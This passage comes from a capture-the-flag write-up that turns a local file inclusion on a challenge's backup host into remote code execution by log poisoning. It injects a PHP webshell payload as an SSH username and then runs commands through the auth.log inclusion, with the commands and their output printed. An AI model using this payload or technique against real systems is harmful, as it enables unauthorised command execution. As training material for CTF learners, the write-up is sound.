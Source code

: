 Great! We can read the SSH logs of the backup machine! Let's look if the log will show our SSH connection attempt to the backup machine.  

> Note : From you'r Kali, try a SSH connection on the second machine, you should look at the port on the deployed instance (not the machine where you connected as bob). Or from bob on the dev machine, you can SSH directly on backup port 22.


```bash
bob@dev:~$ curl http://backup/?file=/var/log/auth.log
...
May 15 21:21:42 backup sshd[86]: Invalid user v0lk3n_w4s_h3r3 from 172.133.71.337 port 55990
May 15 21:21:42 backup sshd[86]: Excess permission or bad ownership on file /var/log/btmp
May 15 21:21:44 backup sshd[86]: pam_unix(sshd:auth): check pass; user unknown
May 15 21:21:44 backup sshd[86]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=172.133.71.337 
May 15 21:21:46 backup sshd[86]: Failed password for invalid user v0lk3n_w4s_h3r3 from 172.133.71.337 port 55990 ssh2
...
```

Nice! Now the idea, is exploiting `Log Poisoning`. To do this, we need to login through SSH, with a payload as user, that will allow us to leverage the LFI to an RCE.

> Note : The challenge name "A woman's weapon" hint the "Poison" for "Log Poisoning". But honnestly, i've found the vulnerability long before understand this.

Let's connect again through SSH, with a PHP code as username, which will allow us to pratice command execution.

```bash
$ ssh '<?php system($_GET["cmd"]);?>'@dyn-01.heroctf.fr -p 13748
<?php system($_GET["cmd"]);?>@dyn-01.heroctf.fr's password: 
Permission denied, please try again.
```

Now let's comme back on the dev machine, and trigger the RCE from the LFI to execute the ```ls -l /``` command.

> Note : A bigger output, a bigger visibility. The output of `ls` in this case only return one or two files. So its kind of hard without using `grep` to find it in the result.

Don't forget to URL encode you'r command.

```bash
curl "http://backup/?file=/var/log/auth.log&cmd=ls%20-l%20%2F"
...
May 15 22:03:01 backup CRON[72]: pam_unix(cron:session): session opened for user dave(uid=1000) by (uid=0)
May 15 22:03:02 backup CRON[72]: pam_unix(cron:session): session closed for user dave
May 15 22:03:36 backup sshd[56]: pam_unix(sshd:auth): check pass; user unknown
May 15 22:03:38 backup sshd[56]: Failed password for invalid user total 60
drwxrwx---   1 backup backup 4096 May 15 22:04 backup
lrwxrwxrwx   1 root   root      7 Apr 25 14:03 bin -> usr/bin
drwxr-xr-x   2 root   root   4096 Apr 18  2022 boot
drwxr-xr-x   5 root   root    360 May 15 22:01 dev
drwxr-xr-x   1 root   root   4096 May 15 22:01 etc
drwxr-xr-x   1 root   root   4096 May 12 18:15 home
lrwxrwxrwx   1 root   root      7 Apr 25 14:03 lib -> usr/lib
lrwxrwxrwx   1 root   root      9 Apr 25 14:03 lib32 -> usr/lib32
lrwxrwxrwx   1 root   root      9 Apr 25 14:03 lib64 -> usr/lib64
lrwxrwxrwx   1 root   root     10 Apr 25 14:03 libx32 -> usr/libx32
drwxr-xr-x   2 root   root   4096 Apr 25 14:03 media
drwxr-xr-x   2 root   root   4096 Apr 25 14:03 mnt
drwxr-xr-x   2 root   root   4096 Apr 25 14:03 opt
dr-xr-xr-x 224 root   root      0 May 15 22:01 proc
drwx------   1 root   root   4096 May 12 18:15 root
drwxr-xr-x   1 root   root   4096 May 15 22:01 run
lrwxrwxrwx   1 root   root      8 Apr 25 14:03 sbin -> usr/sbin
```